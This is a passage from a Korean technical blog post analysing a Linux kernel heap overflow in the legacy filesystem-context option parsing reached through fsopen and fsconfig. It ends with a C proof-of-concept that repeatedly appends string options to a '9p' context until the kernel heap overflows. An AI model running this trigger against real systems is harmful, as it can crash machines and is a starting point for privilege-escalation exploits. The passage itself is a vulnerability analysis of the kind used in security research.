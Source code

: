 코드에서도 볼 수 있듯, `fc->fs_type->init_fs_contex`가 0일 경우  `init_fs_context` 함수 포인터는 `legacy_init_fs_context` 함수를 가리키게 되고! 이를 호출하게되죠! <a href="https://elixir.bootlin.com/linux/v5.2/source/fs/fs_context.c#L701">해당 함수</a>는 요렇게 생겼습니다.
```c
/*
 * Initialise a legacy context for a filesystem that doesn't support
 * fs_context.
 */
static int legacy_init_fs_context(struct fs_context *fc)
{
	fc->fs_private = kzalloc(sizeof(struct legacy_fs_context), GFP_KERNEL);
	if (!fc->fs_private)
		return -ENOMEM;
	fc->ops = &legacy_fs_context_ops;
	return 0;
}
```

레거시 파일 컨텍스트를 할당하고 ops 테이블로 `legacy_fs_context_ops`를 설정해주고 있습니다. 따라서 문자열 파싱시에 `legacy_parse_param`이 호출됩니다!

앞서 살펴본 `ext4`의 경우에도 해당 값을 초기화하지 않아서 0입니다! 따라서 `ext4` 파일 시스템의 경우도 취약한 함수를 트리거 시킬 수 있습니다.

그리고 이러한 `alloc_fs_context` 함수는 `fsopen`을 호출할 때 호출됩니다. 요렇게 말이죠.
```c
    fd = fsopen("ext4", FSOPEN_CLOEXEC);
```

요렇게 특정 파일 시스템으로 `fsopen`을 통해 레거시 파일 시스템 컨텍스트를 만들고 문자열 옵션을 누적시키다보면 누적 옵션 길이 검증 실패로인해서 힙 오버플로우가 발생하게됩니다.

# PoC

```c
# define _GNU_SOURCE
# include <sys/syscall.h>
# include <stdio.h>
# include <stdlib.h>
# ifndef __NR_fsconfig
# define __NR_fsconfig 431
# endif
# ifndef __NR_fsopen
# define __NR_fsopen 430
# endif
# define FSCONFIG_SET_STRING 1
# define fsopen(name, flags) syscall(__NR_fsopen, name, flags)
# define fsconfig(fd, cmd, key, value, aux) syscall(__NR_fsconfig, fd, cmd, key, value, aux)
int main ( void ) {
  char * val = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" ;
  int fd = 0 ;
  fd = fsopen( "9p" , 0 );
  if (fd < 0 ) {
    puts ( "Opening" );
    exit ( -1 );
  }
  for ( int i = 0 ; i < 5000 ; i++) {
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00" , val, 0 );
  }
  return 0 ;
}
```
